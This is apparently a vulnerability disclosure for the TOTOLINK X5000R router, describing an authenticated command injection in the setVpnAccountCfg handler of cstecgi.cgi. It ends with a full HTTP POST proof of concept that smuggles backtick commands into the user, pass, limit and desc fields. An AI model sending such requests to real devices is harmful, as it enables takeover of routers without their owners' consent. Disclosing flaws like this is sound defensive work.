

# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setVpnAccountCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setVpnAccountCfg` (at 0x414734), binary /web/cgi-bin/cstecgi.cgi. These parameters ( `user`, `pass`, `limit`, `desc`) are passed to the `Uci_set_str` function without any check.



The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

.png)

.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 225
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/account.html?timestamp=1733739239593

{"type":"3","user":"123`ls>/tmp/1`","pass":"123`ls>/tmp/2`","limit":"1`ls>/tmp/3`","desc":"123`ls>/tmp/4`","addEffect":"1","ipaddr":"","subnet":[{"ipaddr":"","mask":""}],"accessLimit":"0","topicurl":"setVpnAccountCfg","token":"022874401695c70dc41bee226599ed69"}
```
